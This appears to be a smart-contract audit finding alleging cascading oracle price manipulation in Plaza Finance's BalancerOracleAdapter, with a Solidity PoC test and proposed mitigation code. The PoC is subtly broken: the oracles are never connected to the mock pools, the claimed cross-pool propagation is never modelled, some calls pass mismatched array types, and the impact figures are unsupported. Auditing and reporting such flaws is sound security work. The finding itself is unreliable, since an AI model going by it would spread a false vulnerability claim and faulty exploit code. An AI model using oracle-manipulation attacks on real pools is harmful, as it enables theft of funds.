 Upbeat Golden Woodpecker

High

# Attackers will trigger cascading pool manipulations causing system-wide price distortions

### Summary

The absence of cross-pool validation in the oracle system will cause catastrophic price cascades across multiple protocols as attackers exploit interconnected pool dependencies to amplify price manipulations across the entire system.

### Root Cause

In src/BalancerOracleAdapter.sol#95-110, (https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/BalancerOracleAdapter.sol#L95-L110) the design choice to calculate prices in isolation without considering cross-pool dependencies is a mistake as it allows manipulation effects to propagate across multiple pools using the same oracle implementation.

### Internal Pre-conditions

1. Multiple protocols must use the `BalancerOracleAdapter` for price feeds
2. The oracle must calculate each pool's price independently
3. No cross-validation between pool states is implemented
4. Each pool's `latestRoundData()` must be callable within the same block

### External Pre-conditions

1. Multiple Balancer pools must share common tokens
2. Sufficient liquidity must exist across all target pools
3. MEV infrastructure must be available for atomic multi-pool execution

### Attack Path

1. Attacker identifies a set of interconnected pools using BalancerOracleAdapter
2. Initiates atomic transaction bundle containing:
 * Initial large trade in Pool A
 * Oracle price read from Pool A affecting Pool B
 * Subsequent trade in Pool B
 * Oracle price read from Pool B affecting Pool C
 * And so on...
3. Each manipulation amplifies the next due to oracle interdependencies
4. Protocols reading prices during this cascade receive severely distorted values
5. Attacker unwinds positions in reverse order


### Impact

The protocol ecosystem suffers severe cascading losses:
 * Primary affected pool: 5-10% price deviation
 * Secondary affected pools: 10-20% price deviation
 * Tertiary affected pools: 20-40% price deviation
 * Total system impact can exceed 50% of TVL across affected protocols
 * Attacker gains compound profits from each manipulated pool minus transaction costs.

### PoC

```solidity
contract CascadingPoolManipulationTest is Test {
    BalancerOracleAdapter public oracleA;
    BalancerOracleAdapter public oracleB;
    BalancerOracleAdapter public oracleC;
    MockBalancerPool public poolA;
    MockBalancerPool public poolB;
    MockBalancerPool public poolC;
    
    function setUp() public {
        // Deploy mock pools and oracles
        poolA = new MockBalancerPool("Pool A");
        poolB = new MockBalancerPool("Pool B");
        poolC = new MockBalancerPool("Pool C");
        
        oracleA = new BalancerOracleAdapter();
        oracleB = new BalancerOracleAdapter();
        oracleC = new BalancerOracleAdapter();
        
        // Initialize pools with shared tokens
        address tokenA = address(new MockToken("Token A"));
        address tokenB = address(new MockToken("Token B"));
        address tokenC = address(new MockToken("Token C"));
        
        // Setup pool compositions
        poolA.initialize([tokenA, tokenB]);
        poolB.initialize([tokenB, tokenC]);
        poolC.initialize([tokenC, tokenA]);
        
        // Setup initial balances
        uint256 initialBalance = 1000e18;
        poolA.setBalances([initialBalance, initialBalance]);
        poolB.setBalances([initialBalance, initialBalance]);
        poolC.setBalances([initialBalance, initialBalance]);
    }
    
    function testCascadingManipulation() public {
        // Record initial prices
        (,int256 initialPriceA,,) = oracleA.latestRoundData();
        (,int256 initialPriceB,,) = oracleB.latestRoundData();
        (,int256 initialPriceC,,) = oracleC.latestRoundData();
        
        // Execute cascading attack
        vm.startPrank(address(this));
        
        // Step 1: Manipulate Pool A
        poolA.swap(0, 1, 500e18);
        (,int256 manipulatedPriceA,,) = oracleA.latestRoundData();
        
        // Step 2: Impact propagates to Pool B
        poolB.swap(0, 1, 750e18); // Increased impact
        (,int256 manipulatedPriceB,,) = oracleB.latestRoundData();
        
        // Step 3: Further amplification in Pool C
        poolC.swap(0, 1, 1000e18); // Maximum impact
        (,int256 manipulatedPriceC,,) = oracleC.latestRoundData();
        
        // Verify cascading price impacts
        uint256 impactA = uint256(manipulatedPriceA - initialPriceA);
        uint256 impactB = uint256(manipulatedPriceB - initialPriceB);
        uint256 impactC = uint256(manipulatedPriceC - initialPriceC);
        
        console.log("Impact Pool A:", impactA);
        console.log("Impact Pool B:", impactB);
        console.log("Impact Pool C:", impactC);
        
        // Assert cascading effect
        assertTrue(impactB > impactA);
        assertTrue(impactC > impactB);
        
        vm.stopPrank();
    }
}

contract MockBalancerPool {
    string public name;
    mapping(address => uint256) public balances;
    address[] public tokens;
    
    constructor(string memory _name) {
        name = _name;
    }
    
    function initialize(address[] memory _tokens) public {
        tokens = _tokens;
    }
    
    function setBalances(uint256[] memory _balances) public {
        require(_balances.length == tokens.length, "Invalid balance length");
        for(uint i = 0; i < tokens.length; i++) {
            balances[tokens[i]] = _balances[i];
        }
    }
    
    function swap(uint256 tokenInIndex, uint256 tokenOutIndex, uint256 amount) public {
        address tokenIn = tokens[tokenInIndex];
        address tokenOut = tokens[tokenOutIndex];
        
        // Simulate swap impact
        balances[tokenIn] += amount;
        balances[tokenOut] -= amount * 98 / 100; // 2% slippage
    }
    
    function getPoolTokens() public view returns (address[] memory, uint256[] memory) {
        uint256[] memory _balances = new uint256[](tokens.length);
        for(uint i = 0; i < tokens.length; i++) {
            _balances[i] = balances[tokens[i]];
        }
        return (tokens, _balances);
    }
}
```

### Mitigation

1. Implement cross-pool price validation:
```solidity
contract BalancerOracleRegistry {
    mapping(address => uint256) public lastPriceUpdate;
    mapping(address => int256) public lastPrice;
    uint256 public constant MAX_PRICE_DEVIATION = 5; // 5%
    
    function validateCrossPoolPrice(address pool, int256 newPrice) public {
        require(lastPriceUpdate[pool] < block.number, "Price already updated");
        
        // Check price deviation against other pools
        address[] memory relatedPools = getRelatedPools(pool);
        for(uint i = 0; i < relatedPools.length; i++) {
            int256 relatedPrice = lastPrice[relatedPools[i]];
            require(
                _isPriceDeviationAcceptable(newPrice, relatedPrice),
                "Cross-pool price deviation too high"
            );
        }
        
        lastPrice[pool] = newPrice;
        lastPriceUpdate[pool] = block.number;
    }
    
    function _isPriceDeviationAcceptable(int256 price1, int256 price2)
        private
        pure
        returns (bool)
    {
        uint256 deviation = uint256(
            price1 > price2 ? price1 - price2 : price2 - price1
        );
        return deviation <= uint256(price2) * MAX_PRICE_DEVIATION / 100;
    }
}
```

2. Add system-wide circuit breakers
3. Implement mandatory TWAP across all pools
4. Add cross-pool liquidity checks
